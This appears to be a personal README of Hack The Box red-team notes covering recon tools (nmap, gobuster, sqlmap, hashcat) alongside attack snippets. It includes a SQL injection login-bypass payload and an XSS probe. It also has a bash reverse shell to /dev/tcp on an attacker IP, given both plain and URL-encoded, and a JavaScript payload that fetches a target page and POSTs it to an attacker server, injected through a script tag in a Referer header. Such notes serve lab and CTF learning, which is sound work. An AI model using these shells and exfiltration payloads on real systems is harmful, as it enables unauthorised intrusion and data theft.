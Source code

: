 # Hack the box

To lazy to create another repo for even more notes...

This document will focus on writing down command to play with for when doing red team work.
Something something only use for good.

## Setup

Follow the settings in hack the back page.
Download the package file and start the openvpn.

```shell
sudo openvpn my.ovpn
```

## nmap

```shell
sudo nmap -sC -sV -oA nmap/example 192.168.0.1
# -sC = default script
# -sV = Probe open ports and versions
# -oA = output

sudo nmap -p- -n -oA nmap-allports 192.168.0.1
```

## gobuster

```shell
# kali linux
gobuster dir -u http://192.168.0.1 -w /opt/SecLists/Discovery/web-Content/raft-small-words.txt -x php -o gobuster.out

# arch
gobuster dir -u http://10.129.20.199 -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -x js, html -o gobuster.out

gobuster vhost -u http://10.129.20.199  /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -o gobuster.vhost.out

```

## Burp

Can do a bunch of things :)

## Sqlmap

Sql injection [tool](https://sqlmap.org/) written in python.
Save the output of your request from burp and give it to sqlmap.
Have sqlmap try a number of injects for you.

```shell
sqlmap -r login.req --batch
```

### So basic sql injection

```.php
username=admin'#&password=a
# Web encode '# and forward to the host. In this case the php site will take think the sql query ends.
# So they query only checks for username admin and if it exists thats okay. The password query isn't forwarded.
username=admin%27%23&password=a
```

## Cross site scripting

Even more basic stuff :)
This is something that you can put in forms to see if the potentially might run scripts for you.

Make sure that you have something listening on your client, for example through nc.
Just listen and see if it was a request sent to it.

Another option is to use python as a webserver, more information at the python part.

```.html
<img src="http://192.168.0.1/message"></img>
```

## remote exec

### nc or ncat

Setup and listen for incoming traffic from remote exec on your local host.

```shell
nc -lvnp 9001
```

On the remote host that you want to forward your session to.
Lets assume that your local host got the ip 10.10.0.1.

```shell
bash -c 'bash -i >& /dev/tcp/10.10.0.1/9001'
# Might need to web encode the request or something similar
bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.0.1%2F9001%27
```

## fuzzing

```shell
# FUZZ is the targeted value in this case that should be changed by the fuzzer
wfuzz -u http://10.10.0.1/accounts.php -H <your content type> -d 'username=something&password=12345&FUZZ=12345' -w /path/to/burp-parameter-names.txt
```

## Python

### Start bash from python

And give your self a decent working environment.

```shell
python3 -c ' import pty;pty.spawn("/bin/bash")'
# put it in background
stty raw -echo; fg
export TERM=xterm
```

### Web server

```shell
# sudo needed since port 80 ^^
sudo python3 -m http.server 80
```

## nodejs

Go to target.url make a GET request and save the response.
Use a POST to our receiver endpoint and post the response.
This way we can have a remote host send data to our server and we can see what data it contains.

```pwn.js
var target = "http://taget.url";
var receiver = http://192.168.0.1:8000/
var req1 = new XMLHttpRequest(); # Similar to what the host is using.
req1.open('GET', target, false);
req1.send();
var response = req1.responseText;

var req2 = new XMLHttpRequest(); # Similar to what the host is using.
req2.open('POST', receiver, false); # Your receiver page
req2.send(response);
```

Through burp or what ever tool you are using to send request to your vulnerable page.
Tell it to download your pawn.js and it can run it.

For example

```html request
Referer: <script src="http://192.168.0.1/pawn.js"></script>
```

Your primary listening server on port 80 in this case will server the attacked server with pawn.js.
Pawn.js will then run the script and in this case forward the reply to your secondary server.

## Hashcat

Password recovery utility, used together with a word list.

```shell
hashcat file-containing-password /path/to/wordlist
```

## web tools

wappalyzer = a tool that scans homepages as a extensions and gives you information what technologies it uses.
For example php, js etc.

## install

```shell
pacman -S nmap
yay -S gobuster
yay -S sqlmap
yay -S seclists
```

[burp](https://portswigger.net/burp/releases/professional-community-2022-2-3)

Just like when installing zap burp needs to be installed as root.
